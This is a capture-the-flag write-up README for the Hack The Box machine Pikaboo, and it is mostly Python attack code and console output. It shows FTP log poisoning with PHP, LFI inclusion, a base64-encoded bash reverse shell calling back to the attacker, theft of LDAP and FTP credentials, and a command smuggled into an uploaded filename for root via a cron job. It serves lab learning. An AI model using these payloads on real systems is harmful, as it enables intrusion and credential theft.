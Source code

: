 # Hack The Box. Machines. Pikaboo

Machine write-up: https://7rocky.github.io/en/htb/pikaboo

### `autopwn.py`

This is a Python script that automates all the steps needed to compromise the machine. These are the steps:

- Log poisoning
- Shell as `www-data`
- System enumeration
- LDAP enumeration to get `pwnmeow`'s FTP password
- Store malicious file via FTP for command injection
- Shell as `root`

All these steps can be followed in the main function:

```python
def main():
    ftp = FTP(rhost)

    rev_shell = f'bash -i  >& /dev/tcp/{lhost}/{lport} 0>&1'.encode()
    command = f'echo {b64e(rev_shell)} | base64 -d | bash'

    shell = log_poisoning(ftp, command)
    user = user_enum(shell)
    ldap_user, ldap_password = ldap_enum(shell)

    log.info(f'Found LDAP user: {ldap_user}')
    log.info(f'Found LDAP password: {ldap_password}')

    ftp_password = ldap_search(shell, user, ldap_user, ldap_password)

    log.info(f'Found FTP password: {ftp_password}')

    shell = command_injection(ftp, user, ftp_password, command)
    root_flag(shell)

    log.success('Got shell as root')
    shell.interactive(prompt='')
```

First we define the reverse shell command as a Bash command encoded in Base64. Something like his:

```console
$ echo -n 'bash  -i >& /dev/tcp/10.10.17.44/4444 0>&1' | base64 
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuNDQvNDQ0NCAwPiYx
```

Then we use `log_poisoning` to obtain a shell as `www-data`:

```python
def log_poisoning(ftp, command: str):
    log_file = '/var/log/vsftpd.log'
    lfi_website = f'http://{rhost}/admin../admin_staging/index.php'
    log_poisoning_url = f'{lfi_website}?page={log_file}'

    try:
        ftp.login(f'<?php system("{command}"); ?>', 'asdf')
    except error_perm:
        log.info(f'FTP log ({log_file}) has been poisoned')
        sleep(5)

    Thread(target=requests.get, args=(log_poisoning_url, )).start()

    return listen_for_shell()
```

What it does is basically login to FTP with a username that contains PHP code, and then use an LFI vulnerability to include the FTP log file and execute the PHP code (which contains a system command with the reverse shell).

The function `listen_for_shell` does what its name says:

```python
def listen_for_shell(timeout: int = 20):
    shell = listen(lport, timeout=timeout).wait_for_connection()

    if shell.sock is None:
        log.error(f'Could not to connect to {rhost}')

    return shell
```

After obtaining a shell, we get the `pwnmeow` username and capture the `user.txt` flag:

```python
def user_enum(shell) -> str:
    shell.sendlineafter(b'$', b'ls /home')
    shell.recvline()
    user = shell.recvline().decode().strip()

    log.info(f'Found user: {user}')
    sleep(1)

    shell.sendline(f'cat /home/{user}/user.txt'.encode())
    shell.recvline()
    user_txt = shell.recvline().decode().strip()

    log.warning(f'Found user.txt: {user_txt}')
    sleep(1)

    return user
```

Then, we find some LDAP credentials in file `/opt/pokeapi/config/settings.py` (read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more information). We need to use some regular expressions to extract the desired values:

```python
def ldap_enum(shell) -> Tuple[str]:
    shell.sendline(b'cat /opt/pokeapi/config/settings.py')
    shell.recvuntil(b'DATABASE')
    settings = shell.recv(2048, timeout=2).decode()

    ldap_settings = re.findall(r'''
\s+"ldap": {
    \s+"ENGINE": ".*?",
    \s+"NAME": ".*?",
    \s+"USER": "(.*?)",
    \s+"PASSWORD": "(.*?)",
\s+}''', settings)

    ldap_user, ldap_password = ldap_settings[0]
    return ldap_user, ldap_password
```

Once we have credentials for LDAP, we can use `ldapsearch` command using the function `ldap_search` (again, read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more details). Regular expressions are needed too:

```python
def ldap_search(shell, user: str, ldap_user: str, ldap_password: str) -> str:
    base = 'dc=ftp,dc=pikaboo,dc=htb'
    ldapsearch = f"ldapsearch -xD {ldap_user} -w '{ldap_password}' -b {base}"

    shell.sendline(ldapsearch.encode())
    shell.recvuntil(user.encode())
    res = shell.recv(2048, timeout=2).decode()

    ftp_password_enc = re.findall(r'userPassword:: (.*?)$', res, re.MULTILINE)
    return b64d(ftp_password_enc[0]).decode()
```

Finally, we perform a command injection into a Cron job exploiting a Perl open argument injection vulnerability.

To make this action work, the file must be crafted in a singular way and uploaded to a directory inside `/srv/ftp`. And this task must be done using Python's `ftplib` library and instructions (find library documentation [here](https://docs.python.org/3/library/ftplib.html)).

To create the malicious file, a system command (namely, `os.system`) must be used to avoid errors. Afterwards, the file is removed with another system command.

```python
def command_injection(ftp, ftp_user: str, ftp_password: str, command: str):
    filename = f'|{command}|.csv'
    os.system(f"touch '{filename}'")

    ftp.login(ftp_user, ftp_password)

    dirs = []
    ftp.dir(dirs.append)
    directory = dirs[0].split()[-1]

    ftp.cwd(directory)

    ftp.storlines(f'STOR {filename}', open(filename))
    log.info('Stored malicious file with injected command in filename')

    os.system(f"rm '{filename}'")
    ftp.close()

    return listen_for_shell(timeout=120)
```

Additionally, we have another function to capture the `root.txt` flag:

```python
def root_flag(shell):
    shell.sendlineafter(b'#', b'cat /root/root.txt')
    shell.recvline()
    root_txt = shell.recvline().decode().strip()

    log.warning(f'Found root.txt: {root_txt}')
```

Finally, we can execute the script and compromise the machine with just one click:

```console
$ python3 autopwn.py 10.10.17.44
[*] FTP log (/var/log/vsftpd.log) has been poisoned
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47390
[*] Found user: pwnmeow
[!] Found user.txt: f3417b113fe715a58e02f9e29fe6c736
[*] Found LDAP user: cn=binduser,ou=users,dc=pikaboo,dc=htb
[*] Found LDAP password: J~42%W?PFHl]g
[*] Found FTP password: _G0tT4_C4tcH_'3m_4lL!_
[*] Stored malicious file with injected command in filename
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47396
[!] Found root.txt: 3904cd5b02fd88be5264107d52282460
[+] Got shell as root
[*] Switching to interactive mode
root@pikaboo:/srv/ftp/abilities#
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to global variables and the imported libraries.
